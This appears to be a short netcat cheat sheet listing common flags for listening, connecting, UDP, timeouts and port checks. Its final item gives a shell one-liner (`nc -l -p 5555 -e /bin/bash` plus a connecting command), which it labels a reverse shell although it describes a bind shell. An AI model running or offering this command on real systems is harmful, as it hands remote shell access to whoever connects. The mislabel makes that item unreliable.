* `nc -l port` listen for inbound connection on a port
* `nc 10.0.2.10 port` connect to remote host and port
* `nc -u ...` on UDP rather than TCP (which is default)
* `nc -w 10` terminate connection after 10 seconds
* `nc -z` report connection status only (can be used to test port open)
  * commonly used together with `-v`
* `nc -c command`
* `nc -e command`
* reverse shell
  * on host1: `nc -n -v -l -p 5555 -e /bin/bash`
  * on host2: `nc -nv host1 5555`
